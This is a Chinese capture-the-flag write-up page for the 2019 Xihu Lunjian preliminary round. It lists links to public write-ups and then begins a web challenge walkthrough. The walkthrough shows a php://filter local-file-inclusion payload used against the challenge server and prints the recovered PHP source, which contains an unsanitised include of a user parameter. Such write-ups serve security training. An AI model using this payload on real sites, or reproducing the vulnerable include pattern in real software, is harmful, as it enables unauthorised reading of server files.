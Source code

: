 # 2019西湖论剑预选赛
## 题目类型：
|类型|年份|难度|
|:---:|:---:|:---:|
|官方赛事题|2019|中|

## 网上公开WP:
+ https://mp.weixin.qq.com/s/rlSyABoulRKygPmwfcUuXA
+ https://www.anquanke.com/post/id/176136/
+ https://www.jianshu.com/p/c14970447ddd
+ https://blog.csdn.net/qq_41420747/article/details/89076214

## 题目下载：
+ 链接: https://pan.baidu.com/s/1B9Coqdmh8wYnYo3eW3MOMg 提取码: bagw

## 本站备份WP：
**感谢：冷逸、fIappy[暂时未联系到作者]**  
## Web
**作者：冷逸**  
### babyt3

题目地址：http://61.164.47.198:10000/

打开地址，发现提示：

```
include $_GET['file'] 
```

目测为文件包含，尝试读index.php的源码，

> http://61.164.47.198:10000/?file=php://filter/read=convert.base64-encode/resource=index.php

还原后如下：

```
<?php
$a = @$_GET['file'];
if (!$a) {
    $a = './templates/index.html';
}
echo 'include $_GET[\'file\']';
if (strpos('flag',$a)!==false) {
    die('nonono');
}
include $a;
?>

<!--hint: ZGlyLnBocA== -->
```
